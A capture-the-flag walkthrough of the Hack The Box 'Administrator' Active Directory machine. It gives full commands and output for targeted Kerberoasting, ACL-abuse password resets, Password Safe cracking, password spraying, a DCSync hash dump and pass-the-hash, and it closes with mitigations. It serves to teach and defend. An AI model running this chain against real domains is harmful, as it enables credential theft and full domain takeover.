





## HTB Administrator — Full Walkthrough

**Administrator** is a medium-difficulty Windows Active Directory machine from Hack The Box that showcases a realistic privilege escalation chain through Active Directory misconfigurations. Starting with low-privileged domain credentials, this walkthrough demonstrates how to exploit **GenericAll/GenericWrite ACL permissions**, perform **targeted Kerberoasting attacks**, crack a **Password Safe database**, and ultimately leverage **DCSync rights** to extract the entire domain database.

This machine emphasizes the importance of proper Active Directory security hardening, ACL auditing, and monitoring for suspicious authentication patterns.


---

## Machine Information

| Property                 | Value                          |
| ------------------------ | ------------------------------ |
| **OS**                   | Windows Server 2022            |
| **Difficulty**           | Medium                         |
| **Domain**               | `administrator.htb`            |
| **DC Hostname**          | `DC`                           |
| **Starting Credentials** | `Olivia` / `ichliebedich`      |

This machine provides initial domain credentials to simulate an assumed-breach scenario, a common starting point in modern penetration testing engagements.


---

## Attack Chain Overview



---

## Reconnaissance

### Nmap Port Scanning

Initial service enumeration reveals a Windows Server 2022 domain controller:


```shell
nmap -sC -sV -p- -Pn --min-rate 10000 10.129.106.223
```

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
Service Info: Host: DC; OS: Windows
```

**Key Findings:**
- Port 88 (Kerberos) + 389 (LDAP) confirms Active Directory DC
- Port 21 (FTP) may provide file access
- Port 5985 (WinRM) enables remote PowerShell access
- SMB signing enabled (relay attacks won't work)


### SMB Share Enumeration

Testing olivia's credentials against SMB shares:

```shell
netexec smb 10.129.106.223 -u Olivia -p 'ichliebedich' --shares
```

```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share
SYSVOL          READ            Logon server share
```

Standard domain shares only — no immediate sensitive data accessible.

### Domain User Enumeration

```shell
netexec smb 10.129.106.223 -u olivia -p 'ichliebedich' --users
```

**Key accounts identified:**
- Administrator (built-in admin)
- michael, benjamin, emily, ethan (regular users)
- krbtgt (KDC service account)

These users will become targets in our privilege escalation chain.

### BloodHound Reconnaissance

Collecting AD data for relationship mapping:

```shell
bloodhound-python -d administrator.htb -c All -u Olivia -p 'ichliebedich' \
  -ns 10.129.106.223 --zip
```

**Critical Attack Paths Discovered:**

1. **olivia** → **GenericAll** → **michael**  
   Full control over Michael's account (password reset capability)

2. **michael** → **ForceChangePassword** → **benjamin**  
   Can reset Benjamin's password




3. **emily** → **GenericWrite** → **ethan**  
   Can modify ethan's properties (including SPN for Kerberoasting)

4. **ethan** → **DCSync** privileges  
   Can replicate domain secrets



This chain provides a clear path from olivia to domain admin.

---

## Exploitation Path

### Phase 1: Targeted Kerberoasting on Michael

**What is Targeted Kerberoasting?**

Unlike traditional Kerberoasting that only works on accounts with existing SPNs, targeted Kerberoasting exploits write permissions to:
1. Set a temporary SPN on the target account
2. Request a Kerberos TGS ticket
3. Extract the encrypted hash
4. Remove the SPN (cleanup)

Since olivia has **GenericAll** on michael, we can perform this attack.

**Executing the Attack:**

First, sync time with the DC to avoid Kerberos clock skew errors:

```shell
sudo rdate -n administrator.htb
```

Clone and run the targeted Kerberoasting tool:

```shell
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
./targetedKerberoast/targetedKerberoast.py --request-user michael -o michael_hash \
  -d administrator.htb --dc-ip 10.129.106.223 -u Olivia -p 'ichliebedich'
```


```
[*] Starting kerberoast attacks
[*] Attacking user (michael)
[+] Writing hash to file for (michael)
```

Hash successfully extracted! Attempting to crack with hashcat:

```shell
hashcat -a 0 -m 13100 michael_hash /usr/share/wordlists/rockyou.txt
```

Unfortunately, michael's password is not in rockyou — the hash remains uncracked. We need an alternative approach.

### Phase 2: Password Reset via GenericAll

Since cracking failed, leverage olivia's **GenericAll** permission to directly reset michael's password:

```shell
evil-winrm -i 10.129.106.223 -u Olivia -p 'ichliebedich'
```

```powershell
$password = ConvertTo-SecureString "Welcome@123456" -AsPlainText -Force
Set-ADAccountPassword -Identity michael -NewPassword $password
```

Michael's password is now `Welcome@123456` — we have full control of his account.

### Phase 3: Cascading to Benjamin

Authenticate as michael and reset benjamin's password using **ForceChangePassword** permission:

```shell
evil-winrm -i 10.129.106.223 -u michael -p 'Welcome@123456'
```

```powershell
$password = ConvertTo-SecureString "Welcome@123456" -AsPlainText -Force
Set-ADAccountPassword -Identity benjamin -NewPassword $password
```

---

## Lateral Movement: FTP File Discovery

### Accessing Benjamin's FTP Share

While benjamin lacks WinRM access, testing FTP succeeds:


```shell
ftp benjamin@10.129.106.223
```

```
230 User logged in.
ftp> ls
10-05-24  08:13AM                  952 Backup.psafe3
```

A **Password Safe database** file! This application stores credentials encrypted with a master password.

Download in binary mode to prevent corruption:

```
ftp> binary
ftp> get Backup.psafe3
```

### Cracking the Password Safe Master Password

Use hashcat mode 5200 for Password Safe v3:

```shell
hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
```

```
Status...........: Cracked
Hash.Mode........: 5200 (Password Safe v3)
Recovered........: 1/1 (100.00%) Digests
```

**Master password:** `tekieromucho`

### Extracting Stored Credentials

Opening the database with Password Safe reveals three accounts:

| Username   | Password                          |
| ---------- | --------------------------------- |
| alexander  | UrkIbagoxMyUGw0aPlj9B0AXSea4Sw    |
| emily      | UXLCI5iETUsIBoFVTj8yQFKoHjXmb    |
| emma       | WwANQWnmJnGV07WQN8bMS7FMAbjNur    |

---

## Privilege Escalation: Path to DCSync

### Password Spraying

Test all three passwords against domain accounts:

```shell
netexec smb 10.129.106.223 -u users -p passwords --continue-on-success
```


```
[+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

**Success!** Emily's credentials are valid. Recall from BloodHound that emily has **GenericWrite** on ethan, who has **DCSync** rights.

### Targeted Kerberoasting on Ethan

Using emily's **GenericWrite** permission to Kerberoast ethan:

```shell
./targetedKerberoast/targetedKerberoast.py --request-user ethan -o ethan_hash \
  -d administrator.htb --dc-ip 10.129.106.223 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

```
[*] Attacking user (ethan)
[+] Writing hash to file for (ethan)
```

Crack ethan's hash:

```shell
hashcat -a 0 -m 13100 ethan_hash /usr/share/wordlists/rockyou.txt
```

```
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Recovered........: 1/1 (100.00%)
```

**Ethan's password:** `limpbizkit`

### DCSync Attack: Dumping Domain Secrets

With ethan's credentials and DCSync privileges, extract the entire NTDS.dit database:

```shell
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.129.106.223
```

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
michael:1109:aad3b435b51404eeaad3b435b51404ee:8864a202387fccd97844b924072e1467:::
benjamin:1110:aad3b435b51404eeaad3b435b51404ee:95687598bfb05cd32eaa2831e0ae6850:::
emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
```

**Administrator NTLM hash obtained:** `3dc553ce4b9fd20bd016e098d2d2fd2e`

---

## Post-Exploitation: Domain Admin Access

### Pass-the-Hash as Administrator

```shell
netexec smb 10.129.106.223 -u administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

```
[+] administrator.htb\administrator:3dc553ce4b9fd20bd016e098d2d2fd2e (Pwn3d!)
```

Domain compromised! The root flag is at `C:\Users\Administrator\Desktop\root.txt`.



---

## Key Takeaways & Mitigation

**Attack Techniques Demonstrated:**
- BloodHound for ACL-based attack path discovery
- Targeted Kerberoasting via SPN manipulation
- Password reset abuse with GenericAll/ForceChangePassword
- Password Safe database cracking
- Password spraying
- DCSync replication attack
- Pass-the-Hash authentication

**Security Recommendations:**


1. **Regular ACL Audits** — Use tools like PingCastle or BloodHound Enterprise to identify dangerous permissions like GenericAll, GenericWrite, and ForceChangePassword

2. **Monitor SPN Changes** — Alert on modifications to servicePrincipalName attributes, especially on privileged accounts

3. **Protect DCSync Rights** — Only Domain Controllers should have replication permissions. Regularly audit accounts with GetChanges/GetChangesAll rights

4. **Strong Master Passwords** — Password managers are only as secure as their master password. Enforce complexity requirements and avoid dictionary words

5. **Limit WinRM Access** — Restrict Remote Management Users group membership to necessary accounts only

6. **Password Policy Enforcement** — Implement minimum complexity requirements to prevent weak passwords like "limpbizkit"

7. **Tiered Administration Model** — Separate administrative duties to prevent lateral movement between security boundaries

8. **Enable Advanced Threat Protection** — Use Microsoft Defender for Identity to detect DCSync attempts and suspicious Kerberos activity

This machine provides an excellent example of how seemingly minor Active Directory misconfigurations can chain together to enable full domain compromise. Regular security assessments and proper AD hardening are essential to prevent these attack paths.
